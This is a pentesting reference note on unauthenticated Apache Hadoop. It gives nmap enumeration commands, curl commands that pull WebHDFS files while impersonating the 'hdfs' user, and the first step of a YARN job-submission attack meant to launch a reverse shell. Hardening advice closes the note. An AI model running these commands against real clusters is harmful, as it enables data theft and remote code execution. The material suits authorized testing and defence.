

# 71 - Hadoop (Ports 50070/9870) Pentesting

## 1. Executive Summary

Apache Hadoop is a framework for distributed storage (**HDFS**) and processing (**MapReduce/YARN**) of huge datasets across clusters. It exposes several web UIs/APIs: **50070 or 9870 (NameNode / WebHDFS)**, 50075 (DataNode), 50090 (Secondary NameNode), 50030/50060 (JobTracker/TaskTracker). The defining flaw: **Hadoop runs without authentication by default**. WebHDFS therefore lets anyone **browse and download the entire data lake** over HTTP, and an exposed **YARN ResourceManager** API allows submitting jobs → **RCE** across cluster nodes.

## 2. Protocol Overview & Architecture

The NameNode tracks HDFS metadata and exposes **WebHDFS** (REST over HTTP). DataNodes hold the blocks. YARN schedules jobs. Without Kerberos (the optional secure mode), all of these accept unauthenticated requests — you supply any `user.name` you like. So data read/write and job submission are wide open unless Kerberos+HDFS ACLs are configured.

## 3. Enumeration & Footprinting

```bash
# Hadoop isn't in Metasploit; use nmap NSE
nmap --script hadoop-namenode-info -p 50070 <IP>
nmap --script hadoop-datanode-info -p 50075 <IP>
nmap --script hadoop-jobtracker-info -p 50030 <IP>
nmap --script hadoop-secondary-namenode-info -p 50090 <IP>
# WebHDFS directory listing (no auth)
curl "http://<IP>:9870/webhdfs/v1/?op=LISTSTATUS"
```

## 4. Exploitation Deep Dive

### 4.1 WebHDFS Data Exfiltration
Browse and pull any file as any user:
```bash
curl "http://<IP>:9870/webhdfs/v1/user/?op=LISTSTATUS&user.name=hdfs"
curl -L "http://<IP>:9870/webhdfs/v1/path/to/secret.csv?op=OPEN&user.name=hdfs" -o secret.csv
```
The data lake routinely holds PII, logs with creds, and exported databases.

### 4.2 WebHDFS Write
With write access, upload/overwrite files (`op=CREATE`) — tamper with datasets or plant payloads consumed by jobs.

### 4.3 YARN Job → RCE
If the YARN ResourceManager REST API (8088) is exposed unauthenticated, submit an application whose command is a reverse shell — executes on cluster nodes:
```bash
# new-application → submit-application with a shell command in the launch spec
curl -s -X POST http://<IP>:8088/ws/v1/cluster/apps/new-application
```

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Exfiltrate the entire data lake (PII, logs, DB exports → creds).
- YARN job RCE → shells across many cluster nodes.
- Pivot using harvested credentials.

## 7. Defense & Hardening
1. **Enable Kerberos** for HDFS/YARN/MapReduce; enforce HDFS permissions/ACLs.
2. Restrict NameNode/DataNode/YARN UIs (9870/50070/8088…) to admin networks; never internet-facing.
3. Enable HTTPS + SPNEGO auth on web UIs; patch Hadoop.
4. Monitor WebHDFS access and job submissions.

## 8. Chaining Opportunities
- Data-lake creds → databases, **Active Directory**, cloud.
- RCE → **[[08 - Linux Privilege Escalation]]**.

## 9. Related Notes
- [[18 - Elasticsearch (Port 9200) Pentesting]]
- [[70 - GlusterFS (Ports 24007-49152) Pentesting]]

## 10. Tools
`nmap` hadoop-* NSE, `curl` (WebHDFS), `hdfs` CLI, YARN REST API.
